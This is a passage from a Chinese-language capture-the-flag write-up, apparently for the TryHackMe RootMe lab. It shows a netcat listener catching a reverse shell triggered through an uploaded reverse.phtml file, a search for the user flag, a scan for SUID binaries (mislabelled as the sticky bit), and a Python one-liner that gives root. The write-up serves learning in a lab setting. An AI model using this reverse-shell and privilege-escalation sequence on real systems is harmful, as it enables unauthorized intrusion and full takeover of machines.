 要启动反向外壳，我需要触发`reverse.phtml`。但在此之前，我将在我的 AttackBox 上设置一个 [netcat (n.d.)](https://netcat.sourceforge.net/) 监听器来监听接受任何反向 shell 请求:

```
**┌──(dna㉿deniers)-[~/rrootme]
└─$ nc -lvnp 4444    **  
listening on [any] 4444 ...
```

触发`reverse.phtml`就像点击它一样简单。这样做向我展示了相反的外壳:

```
listening on [any] 4444 ...
connect to [attacker.thm] from (UNKNOWN) [rrootme.thm] 55952
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 [redacted],  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
**$**
```

我现在可以转储该标志了:

```
**$ find . -name user.txt -print 2>/dev/null**
./var/www/user.txt
**$ cat ./var/www/user.txt**
THM{redacted}
**$**
```

非常好。

## 后剥削

现在我需要得到系统的根标志。我的过程是使用`find`命令探测系统中设置了粘性位标志的二进制文件:

```
**$ find / -type f -perm /4000 -print 2>/dev/null**

[... snip ...]

/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at

[... snip ...]

**$**
```

特别是， [Python (n.d.)](https://www.python.org/) 解释器设置了粘性位。这是好东西，因为可以利用它来获得根壳。以下是我从前述文章中复制的逻辑:

```
**$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**
**# id**
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
**#**
```
